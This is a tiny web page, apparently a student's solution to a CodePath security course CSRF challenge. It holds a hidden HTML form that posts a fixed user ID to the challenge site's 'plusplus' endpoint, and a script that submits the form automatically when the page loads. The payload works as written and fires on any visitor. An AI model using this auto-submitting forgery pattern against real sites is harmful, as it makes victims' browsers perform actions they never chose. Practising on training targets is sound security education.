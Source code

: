 # JLPlummer79.github.io

    <form name="csrfform" action="https://security.codepath.com/user/csrfchallengetwo/plusplus/" method="POST">
      <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd"/>
      <input type="submit"/>
    </form>
    <script> document.csrfform.submit();  </script>
 
